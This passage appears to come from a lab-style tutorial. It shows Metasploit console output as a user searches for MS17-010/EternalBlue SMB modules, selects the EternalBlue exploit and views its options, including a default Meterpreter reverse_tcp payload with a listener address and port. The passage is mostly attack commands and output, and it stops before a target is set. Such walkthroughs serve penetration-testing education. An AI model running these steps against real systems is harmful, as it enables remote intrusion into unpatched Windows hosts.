 ```bash
   23    \_ AKA: ETERNALBLUE                          .                .        .      .
   24  auxiliary/scanner/smb/smb_ms17_010             .                normal   No     MS17-010 SMB RCE Detection
   25    \_ AKA: DOUBLEPULSAR                         .                .        .      .
   26    \_ AKA: ETERNALBLUE                          .                .        .      .
   27  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
   28    \_ target: Execute payload (x64)             .                .        .      .
   29    \_ target: Neutralize implant                .                .        .      .


Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'
```
{% endraw %}

<br />
Choose to use the payload at the top of the list.

{% raw %}
```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
{% endraw %}

<br />
Use the show options command to view the options for this payload.

{% raw %}
```bash
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
```